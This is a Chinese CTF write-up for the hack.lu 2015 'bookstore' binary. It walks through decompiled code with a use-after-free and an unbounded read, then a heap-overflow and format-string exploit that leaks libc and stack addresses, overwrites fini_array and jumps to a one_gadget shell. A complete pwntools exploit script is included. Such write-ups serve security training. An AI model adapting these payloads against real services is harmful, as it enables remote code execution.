# [CTF] hack.lu CTF 2015 bookstore

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1833578
- 抓取时间: 2026-11-01T22:45:24

## 检查文件信息



图片.png (59.49 KB, 下载次数: 1)

`ELF64` 小端序，动态链接，经过符号去除。



图片.png (81.06 KB, 下载次数: 1)

没开 `RELRO` 和 `PIE` 保护。


图片.png (13.72 KB, 下载次数: 1)



图片.png (102.57 KB, 下载次数: 1)

猜测是 `glibc-2.19`，暂改 `glibc` 为 `glibc-2.23`。

## 试运行



图片.png (160.84 KB, 下载次数: 1)

## 逆向分析

```
/* main 函数 */

signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+4h] [rbp-BCh]
  char *v5; // [rsp+8h] [rbp-B8h]
  char *first_order; // [rsp+18h] [rbp-A8h]
  char *second_order; // [rsp+20h] [rbp-A0h]
  char *dest; // [rsp+28h] [rbp-98h]
  char s[136]; // [rsp+30h] [rbp-90h] BYREF
  unsigned __int64 v10; // [rsp+B8h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  first_order = (char *)malloc(0x80uLL);
  second_order = (char *)malloc(0x80uLL);
  dest = (char *)malloc(0x80uLL);
  if ( !first_order || !second_order || !dest )
  {
    fwrite("Something failed!\n", 1uLL, 0x12uLL, stderr);
    return 1LL;
  }
  v4 = 0;
  puts(
    " _____          _   _                 _          _                   _ \n"
    "/__   \\_____  _| |_| |__   ___   ___ | | __  ___| |_ ___  _ __ ___  / \\\n"
    "  / /\\/ _ \\ \\/ / __| '_ \\ / _ \\ / _ \\| |/ / / __| __/ _ \\| '__/ _ \\/  /\n"
    " / / |  __/>  
```

```
/* edit 函数 */

unsigned __int64 __fastcall edit_order(char *a1)
{
  int idx; // eax
  int v3; // [rsp+10h] [rbp-10h]
  int cnt; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  v3 = 0;
  cnt = 0;
  while ( v3 != '\n' ) // 无限制读入
  {
    v3 = fgetc(stdin);
    idx = cnt++;
    a1[idx] = v3;
  }
  a1[cnt - 1] = 0;
  return __readfsqword(0x28u) ^ v5;
}
```

```
unsigned __int64 __fastcall delete_order(void *a1)
{
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  free(a1);  // UAF漏洞
  return __readfsqword(0x28u) ^ v2;
}
```

```
unsigned __int64 __fastcall submit(char *all, const char *order1, char *order2)
{
  size_t v3; // rax
  size_t v4; // rax
  unsigned __int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  strcpy(all, "Order 1: ");
  v3 = strlen(order1);
  strncat(all, order1, v3);
  strcat(all, "\nOrder 2: ");
  v4 = strlen(order2);
  strncat(all, order2, v4);
  *(_WORD *)&all[strlen(all)] = '\n';
  return __readfsqword(0x28u) ^ v7;
}
```

### 漏洞利用

我们需要做两件事来 `getshell`，第一是泄露栈地址和 `libc` 地址。第二是找到合适的执行流执行 `one_gadget`，这题最为适合的执行流便是控制返回地址。泄露栈地址和 `libc` 基址可以通过格式化字符串漏洞来完成，同样，格式化字符串也可完成任意地址写，如果将 `fini_array` 改为 `main` 函数地址便可执行两次程序。我们可以通过开始时向栈读入的 `0x80` 大小布置栈空间。退出时会申请 `0x140` 大小的空间，我们可以通过堆溢出控制 `chunk2_size` 从而达到控制 `dest` 的效果，然后便可利用格式化字符串漏洞 `getshell`。

### 前置脚本

```
from pwn import *

context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h']
context.log_level='debug'

p = process('./books')
elf = ELF('./books')
libc = ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

is_debug = True
def debug(gdbscript=""):
    if is_debug:
        gdb.attach(p, gdbscript=gdbscript)
        pause()
    else:
        pass

def edit(ID, dest):
    p.recvuntil(b'5: Submit\n')
    p.sendline(str(ID).encode())
    p.recvuntil(b'er:\n')
    p.sendline(dest)
    sleep(0.5)

def delete(ID):
    p.recvuntil(b'5: Submit\n')
    p.sendline(str(ID+2).encode())
    sleep(0.5)

def submit(payload):
    p.recvuntil(b'5: Submit\n')
    p.sendline(b'5aaaaaaa' + payload)
    sleep(0.5)
```

### 泄露地址

```
def leak():
    global libc_base, ret_addr
    fini_arry = 0x6011b8  # 0x400830
    main_addr = 0x400a39
    payload = b'%' + str(0xa39).encode() + b'c%13$hn' + b'.%31$p' + b'.%28$p'
    payload = payload.ljust(0x74, b'a')
    payload = payload.ljust(0x80, b'\x00')
    payload += p64(0x90)
    payload += p64(0x151)
    payload += b'a'*0x140
    payload += p64(0x150)
    payload += p64(0x21)               #为了bypass the check: !prev_inuse(next_chunk)
    payload += b'b'*0x10
    payload += p64(0x20)+p64(0x21)     #为了使0x150的块不和nextchunk合并    
    gdb.attach(p)
    edit(1,payload)
    delete(2)
    submit(p64(fini_arry))
    p.recvuntil(b'0x')
    libc_base = int(p.recv(12),16) - 0xf0 - libc.symbols['__libc_start_main']
    p.recvuntil(b'0x')
    ret_addr = int(p.recv(12), 16) - 0xd8 - 0x110
    log.success("libc_base : 0x%x" % libc_base)
    log.success("ret_addr : 0x%x" % ret_addr)
    pause()
    sleep(0.5)
```



图片.png (4.2 KB, 下载次数: 0)



图片.png (146.9 KB, 下载次数: 1)

我们通过堆溢出将 `chunk2` 的 `size` 修改为 `0x151`，并做了绕过检查。将 `chunk2` 释放后，`submit` 时便会申请到 `chunk2` 的内容。`submit` 可用来布置栈空间，不过需要 8 字节对齐一下，调试时时第八个位置是读入，因为是 64 位，所以是第 13 个位置可控，我们可以将 `fini_array` 地址填入，然后利用格式化字符串漏洞修改 `fini_array` 指向的值 (`0x400830`) 修改为 `main` 函数地址。我们只需修改后 12 位即可。



图片.png (70.87 KB, 下载次数: 2)

我们 `(5+26)` 的位置是 `main` 的返回地址，这个地址指向了 `libc_start_main+0xf0`，而这个函数是动态链接进来的，所以可以泄露出 `libc` 地址减去偏移 `0xf0` 和 `libc` 库中的偏移即可得到 `libc` 基址，而 `(5+23)` 的位置保存了一个栈地址，它与 `main` 函数返回地址的位置偏移是固定的 `0xd8`，但是当我们再次返回到 `main` 函数时，调试发现返回地址位置在原来低 `0x110` 处，原因有二，程序未正常结束，也没有直接返回到 `_start` 函数，导致的栈空间失衡。



图片.png (38.59 KB, 下载次数: 2)


[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MjkwMXw4NjcyNGE5YXwxNzkzNTczMTIyfDE2ODA4NnwxODMzNTc4&nothumb=yes)

8 2023-9-14 09:29 上传



图片.png (182.51 KB, 下载次数: 1)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MjkwNnxiYjc3YTExNXwxNzkzNTczMTIyfDE2ODA4NnwxODMzNTc4&nothumb=yes)

10 2023-9-14 09:45 上传

此时 `v5` 已经申请到 `chunk2` 的位置，然年后进行字符串合并时，会将 `chunk1` 的内容粘贴到 `chunk2` 中，然后再次把 `chunk2` 的内容加到 `chunk2` 尾部，偏移 `0x80` 的地方正好是 `dest` ,我们由此完成了格式化字符串漏洞的第一次利用。

### 3. getshell



图片.png (42.97 KB, 下载次数: 2)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MjkxNHwwN2Q3NTdiOHwxNzkzNTczMTIyfDE2ODA4NnwxODMzNTc4&nothumb=yes)

11 2023-9-14 10:48 上传



图片.png (55.04 KB, 下载次数: 0)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MjkxNXw2YjQwMzliY3wxNzkzNTczMTIyfDE2ODA4NnwxODMzNTc4&nothumb=yes)

12 2023-9-14 10:48 上传


图片.png (32.15 KB, 下载次数: 1)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MjkxNnw5NTA4NDMxNXwxNzkzNTczMTIyfDE2ODA4NnwxODMzNTc4&nothumb=yes)

13 2023-9-14 10:49 上传

我们将返回地址和返回地址+1的地方写入返回地址的地址，然后将其改为 `one_gadget`，只需改后3字节即可。函数返回时，即可执行 `one_gadget` `getshell`。



图片.png (74.84 KB, 下载次数: 1)

[附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjY0MjkxOHwyZDQ2YjZiOHwxNzkzNTczMTIyfDE2ODA4NnwxODMzNTc4&nothumb=yes)

14 2023-9-14 10:49 上传

### 3. 完整exp

```
from pwn import *

context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h']
context.log_level='debug'

p = process('./books')
elf = ELF('./books')
libc = ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

is_debug = True
def debug(gdbscript=""):
    if is_debug:
        gdb.attach(p, gdbscript=gdbscript)
        pause()
    else:
        pass

def edit(ID, dest):
    p.recvuntil(b'5: Submit\n')
    p.sendline(str(ID).encode())
    p.recvuntil(b'er:\n')
    p.sendline(dest)
    sleep(0.5)

def delete(ID):
    p.recvuntil(b'5: Submit\n')
    p.sendline(str(ID+2).encode())
    sleep(0.5)

def submit(payload):
    p.recvuntil(b'5: Submit\n')
    p.sendline(b'5aaaaaaa' + payload)
    sleep(0.5)

def leak():
    global libc_base, ret_addr

    fini_arry = 0x6011b8  # 0x400830
    main_addr = 0x400a39

    payload = b'%' + str(0xa39).encode() + b'c%13$hn' + b'.%31$p' + b'.%28$p'
    payload = payload.ljust(0x74, b'a')
    payload = payload.ljust(0x80, b'\x00')
    payload += p64(0x90)
    payload += p64(0x151)
    payload += b'a'*0x140
    payload += p64(0x150)
    payload += p64(0x21)               #为了bypass the check: !prev_inuse(next_chunk)
    payload += b'b'*0x10
    payload += p64(0x20)+p64(0x21)     #为了使0x150的块不和nextchunk合并

    gdb.attach(p)
    edit(1,payload)
    delete(2)
    submit(p64(fini_arry))

    p.recvuntil(b'0x')
    libc_base = int(p.recv(12),16) - 0xf0 - libc.symbols['__libc_start_main']
    p.recvuntil(b'0x')
    ret_addr = int(p.recv(12), 16) - 0xd8 - 0x110 # 偏移

    log.success("libc_base : 0x%x" % libc_base)
    log.success("ret_addr : 0x%x" % ret_addr)
    pause()
    sleep(0.5)

def get_shell():
    one_gadget = libc_base + 0x45226

    part1 = u8(p64(one_gadget)[:1])
    part2 = u16(p64(one_gadget)[1:3])

    payload = b'%' + str(part1).encode() + b'c%13$hhn'
    payload += b'%' + str(part2-part1).encode() + b'c%14$hn'
    payload = payload.ljust(0x74, b'a')
    payload = payload.ljust(0x80, b'\x00')
    payload += p64(0x90)
    payload += p64(0x151)
    payload += b'a'*0x140
    payload += p64(0x150)
    payload += p64(0x21)
    payload += b'b'*0x10
    payload += p64(0x20) + p64(0x21)

    gdb.attach(p)
    edit(1, payload)
    delete(2)
    submit(p64(ret_addr)+p64(ret_addr+1))
    pause()

    sleep(0.5)

def pwn():
    leak()
    get_shell()
    sleep(0.5)
    p.interactive()

if __name__ == '__main__':
    pwn()

```
